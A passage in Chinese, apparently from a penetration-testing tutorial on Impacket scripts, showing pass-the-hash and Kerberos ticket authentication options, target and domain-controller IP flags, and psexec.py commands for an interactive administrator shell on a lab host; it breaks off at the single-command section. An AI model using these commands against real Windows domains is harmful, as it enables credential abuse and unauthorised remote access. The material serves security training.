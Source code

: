 ### hash 认证

```bash
py -3 xxx.py domain/user@ip -hashes :161cff084477fe596a5db81874498a24
```

### Kerberos 认证

```bash
export KRB5CCNAME=ad01.ccache 
py -3 xxx.py -k -no-pass
```

### 指定目标 IP

```bash
-target-ip 192.168.40.156
```

[![](assets/1702372846-031c7644638bf22414042ca27609079f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124122856-82299bf8-6bb0-1.png)

### 指定域控 IP

```bash
-dc-ip 192.168.40.156
```

## 远程执行

### psexec.py

可使用密码认证、hash 认证、kerberos 认证。

#### 常用命令

**交互式 Shell**

```bash
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156
```

**执行单命令**
